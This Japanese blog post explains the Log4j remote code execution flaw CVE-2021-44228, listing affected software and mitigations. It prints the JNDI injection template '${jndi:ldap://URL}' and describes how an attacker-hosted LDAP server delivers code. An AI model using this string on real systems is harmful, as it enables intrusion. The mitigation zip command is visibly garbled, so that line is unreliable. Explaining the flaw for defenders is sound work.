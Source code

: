 ```yaml
---
layout: single
title:  "Log4jの脆弱性(CVE-2021-44228)について"
date:   2021-12-11 16:11:07 +0900
categories:
  - 脆弱性
tags: 
  - Java
  - log4j
toc: true
toc_label: "目次"
toc_icon: "cog"
---
```


# Log4j脆弱性について

今巷で大きな話題になっているLog4jについてまとめてみた。
まだ、CVE情報などが完全には公開されていない状態で執筆している記事ですので、あくまで参考程度にとどめてください。

https://www.itmedia.co.jp/news/articles/2112/10/news157.html

https://zenn.dev/yuitosato/articles/ed283add200e2a

## Log4jとは

Javaのロギングのためのクラス・ライブラリで、Apacheのサブプロジェクトの1つです。

![log4j-01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/355263/3fd6a89f-38f6-fd56-55b4-e199ea31b436.png)
引用元：https://logging.apache.org/

上画像の通り、Java以外にも多くの言語・フレームワークでLog4jを利用できます。

Javaでの主要なロギング手法については、下記Qiitaの記事が分かりやすいと思います。

https://qiita.com/NagaokaKenichi/items/9febd2e559331152fcf8

## 今回話題になっている脆弱性(CVE-2021-44228)について

### 脆弱性の概要

![log4j.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/355263/10e846ea-27f6-447d-9062-25491546aea2.png)

Log4Jには、lookupという任意の場所でLog4j構成に値を追加する機能が存在します。  
lookup機能を利用することによりログ出力時にランタイムに情報を出力することができます。  
例として、"${java:runtime}"という変数を使えば、"Java(TM) SE Runtime Environment (build 1.7.0_67-b01) from Oracle Corporation"などのようにJavaのバージョン情報に置換されます。  

今回問題となっているのはJndi Lookupという機能です。  
これはJavaのJava Naming and Directory Interfaceによる変数名の置換で、ネットワーク上から値を取得し置換することができます。

```
${jndi:ldap://URL}
```

このURLに.を含めることにより、lg4jは任意のリモートのLDAPサーバーからjava classファイルをダウンロードして読み込むことが可能になります。  
そのため、この脆弱性を悪用し、攻撃用のjava classファイルとLDAPサーバーを用意し、攻撃対象のLog4jを使っているプログラムに"${jndi:ldap://URL}"の形でログ出力されるように設定することで任意のコードが実行できるようになります。  

なので悪意あるjava classファイルとそれをホストするLDAPサーバーを用意して、ターゲットとなるJavaで動きlog4jを使っているプログラムに"${jndi:ldap://URL}"の形でログ出力されるようにすれば、任意のコード実行が可能になります。

CVE: CVE-2021-44228

### なぜこんなに騒がれているか

よりによってJavaの主要な機能だからです。Javaで作られたシステムは世の中に多数存在しそのシステムが今回の脆弱性の影響を受けるためです。  
また、攻撃もリモートから実行可能かつ、攻撃に当たっての条件も複雑でなく、ユーザ権限も必要ないため、多くのシステムを簡単に攻撃可能といるのが今回の脆弱性のやばいところです。

また、自分のシステムで明示的にLog4jを使っていなくても、他のプラグインやソフトウェアで利用している可能性が高く脆弱性の影響範囲を洗い出すのが難しいという点があります。

### 影響を受けるシステム

#### バージョン

Apache Log4j 2.x <= 2.15.0-rc1

#### 影響を受けるソフトウェア

- Apache Struts
- Apache Solr
- Apache Druid
- Apache Flink
- ElasticSearch
- Flume
- Apache Dubbo
- Logstash
- Kafka
- Spring-Boot-starter-log4j2

### 緩和策

#### lookup機能を無効化する

システムプロパティでlog4j2.formatMsgNoLookups=trueとしてlookup機能を無効化する。

#### クラスパスからJndiLookupクラスを削除する

例
```
zip -q -dlog4j-core-*。jarorg / apache / logging / log4j / core / lookup / JndiLookup.class
```

### WAFを利用する

利用しているWAFで今回の脆弱性の対応ができるようであれば、リスク緩和することが可能です。

AWSでクラスメソッド社が検証したブログを参考に記載しておきます。  
https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/

## 参考サイト

- http://www.nurs.or.jp/~sug/soft/log4j/log4j1.htm
- https://logging.apache.org/
- https://qiita.com/NagaokaKenichi/items/9febd2e559331152fcf8
- https://vuldb.com/ja/?id.187925
- https://ezoeryou.github.io/blog/article/2021-12-10-log4j.html
- https://access.redhat.com/security/cve/cve-2021-44228